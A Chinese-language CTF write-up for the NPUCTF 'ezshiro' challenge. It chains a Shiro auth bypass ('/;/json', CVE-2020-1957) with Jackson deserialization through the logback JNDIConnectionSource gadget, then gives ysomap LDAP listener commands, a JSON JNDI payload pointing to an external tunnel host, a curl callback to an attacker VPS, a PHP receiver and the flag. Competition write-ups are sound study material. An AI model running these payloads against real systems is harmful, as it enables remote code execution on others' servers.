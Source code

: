 # NPUCTF_WriteUps

WriteUp发布处，欢迎各位选手PR


## ezshiro 

看到访问 `/json` 就跳到`/login`，

是一个比较新的`shiro`漏洞`CVE-2020-1957`

可以通过`/;/json`的方式绕过直接访问

`GET`访问是显示`Request method not support`

`POST a=1`访问，

看到`Unrecognized token  was expecting (&#39;true&#39;, &#39;false&#39; or &#39;null&#39;)`

所以直接POST true，看到`jackson interface`， 所以是`jackson`反序列化

看一下`pom.xml`有什么



```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>1.5.22.RELEASE</version>
    <relativePath/>
  </parent>

  <modelVersion>4.0.0</modelVersion>
  <artifactId>shiro-test</artifactId>
  <build>
    <plugins>
      <plugin>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-maven-plugin</artifactId>
        <configuration>
          <fork>true</fork>
          <mainClass>com.lfy.ctf.Application</mainClass>
        </configuration>
        <executions>
          <execution>
            <goals>
              <goal>repackage</goal>
            </goals>
          </execution>
        </executions>
      </plugin>
    </plugins>
  </build>

  <dependencies>
    <dependency>
      <groupId>org.springframework.boot</groupId>
      <artifactId>spring-boot-starter-web</artifactId>
    </dependency>

    <dependency>
      <groupId>org.apache.shiro</groupId>
      <artifactId>shiro-web</artifactId>
      <version>1.5.1</version>
    </dependency>
    <dependency>
      <groupId>org.apache.shiro</groupId>
      <artifactId>shiro-spring</artifactId>
      <version>1.5.1</version>
    </dependency>
    <dependency>
      <groupId>ch.qos.logback</groupId>
      <artifactId>logback-core</artifactId>
      <version>1.2.1</version>
    </dependency>
    <dependency>
      <groupId>commons-collections</groupId>
      <artifactId>commons-collections</artifactId>
      <version>3.2.1</version>
    </dependency>
  </dependencies>

</project>
```
 

有`ch.qos.logback`和`commons-collections`，

然后看一下`jackson`有什么漏洞，根据`pom.xml`来看，直接筛选，看到有一个`logback`的

**CVE-2019-14439**可以 

利用是

`["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://localhost:43658/Calc"}]`

那么是JNDI注入

然后题目是高版本的JDK，> 8u191,

`paper`上有绕过高版本的JDK限制进行JNDI注入

[https://paper.seebug.org/942/#ldapgadget](https://paper.seebug.org/942/#ldapgadget)

结合`pom.xml`的`commons-collections`,

就是利用LDAP返回序列化数据，触发本地Gadget，就是用Common Collections3.2.1的了

本来想用这个的文章的代码，[https://github.com/kxcode/JNDI-Exploit-Bypass-Demo/blob/master/HackerServer/src/main/java/HackerLDAPRefServer.java](https://github.com/kxcode/JNDI-Exploit-Bypass-Demo/blob/master/HackerServer/src/main/java/HackerLDAPRefServer.java)

没实践过高版本的，只试过低版本的,不过随便翻翻其他的看到了可以更简单的

`ysomap`这个工具，在本地直接用花生壳内网穿透

```
java -jar ysomap-cli-0.0.1-SNAPSHOT-all.jar
use exploit LDAPLocalChainListener
use payload  CommonsCollections8
use bullet TransformerBullet
set lport 5555
set version 3
set args 'curl xx.xx.xx.xxx/try/shell.php?a=test'
```

![](http://mo0n.top/images/ha1cyon/ysomap.png)

vps shell.php 内容是

```
<?php
$a=$_GET['a'];
file_put_contents('content',$a);

```

然后json发送

```
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://mu27062382.zicp.vip:18330/Exploit"}]
```

![](http://mo0n.top/images/ha1cyon/burp2.png)

虽然是报错返回500,但是其实是执行了的，在vps上可以看到效果

![](http://mo0n.top/images/ha1cyon/vps.png)

成功执行命令，RCE

flag

flag{ebcfc7fa-d9e7-4db1-9685-42684bc1aa76}
